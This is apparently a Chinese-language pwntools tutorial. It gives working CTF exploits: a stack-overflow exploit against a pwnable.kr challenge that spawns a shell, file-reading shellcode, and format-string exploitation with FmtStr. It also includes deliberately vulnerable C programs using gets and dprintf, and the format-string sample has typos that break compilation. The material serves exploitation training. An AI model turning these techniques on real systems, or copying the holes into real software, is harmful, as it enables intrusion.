 # Pwntool

## 栈溢出攻击例子

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else {
        printf("Nah..\n");
    }
}

int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

exploit.py

```python
from pwn import *
c = remote("pwnable.kr", 9000)
c.sendline("AAAA" * 13 + p32(0xcafebabe))
c.interactive()
```



`remote(ip , port)`连接到指定地址；

`remote`对象主要用来对远程主机的输入输出：

* `send(payload)`
* `sendline(payload)`
* `sendafter(some_string, payload)`
* `recvn(N)`
* `recvline()`
* `recvlines(N)`
* `recvuntil(some_string)`

`p32()`转换整数大小端序格式

`pwntools`不能自动计算偏移量，用户需要自行计算



## 写shellcode

```shell
ssh -p2222 asm@pwnable.kr guest

```



exploit.py

```python
from pwn import *

p = process("./asm")
context.log_level = 'DEBUG'
gdb.attach(p)

context(arch='amd64', os='linux')

shellcode = shellcraft.amd64.pushstr("this_is_pwnable.kr_flag_file_please_read...")
shellcode += shellcraft.amd64.linux.open('rsp',0,0)
shellcode += shellcraft.amd64.linux.read('rax', 'rsp', 0)
shellcode += shellcraft.amd64.linux.write(1, 'rsp', 100)

p.recvuntil('shellcode: ')
p.send(asm(shellcode))
log.success(p.recvall())
```

## 格式化漏洞自动化

```python
from pwn import *
import tempfile

program = tempfile.mktemp()
source = program + ".c"
write(source,'''
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>
#define MEMORY_ADDRESS ((void*)0x11111000)
#define MOMORY_SIZE 1024
#define TARGET ((int*) 0x11111110)
int main(int argc, char const *argv[])
{
	char buff[1024];
	void *ptr = NULL;
	int *my_var = TARGET;
	ptr = mmap(MEMORY_ADDRESS, MEMORY_SIZE, PROT_READ|PROT_WRITE,MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE, 0, 0);
	if(ptr != MEMORY_ADDRESS)
	{
		perror("mmap")
		return EXIT_FAILURE;
	}
	*my_var = 0x41414141;
	write(1, &my_var, sizeof(int *));
	scanf("%s", buff);
	dprintf(2, buff);
	write(1, my_var, sizeof(int));
	return 0;
}
''')

cmdline = ["gcc", source, "-Wno-format-security", "-m32", "-o", program]
process(cmdline).wait_for_close()
def exec_fmt(payload):
    p = process(program)
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset
p = process(program , stderr=PIPE)
addr = u32(p.recv(4))
payload = fmtstr_payload(offset, {addr: 0x1337babe})
p.sendline(payload)
print(hex(unpack(p.recv(4))))
```

## ELF()

```python
from pwn import *

e = ELF('./example_file')
print hex(e.address)
print hex(e.symbols['write'])
print hex(e.got['write'])
print hex(e.plt['write'])
offset = e.symbols['system'] - e.symbols['printf']
binsh_address = next(e.search('/bin/sh\x00'))
```

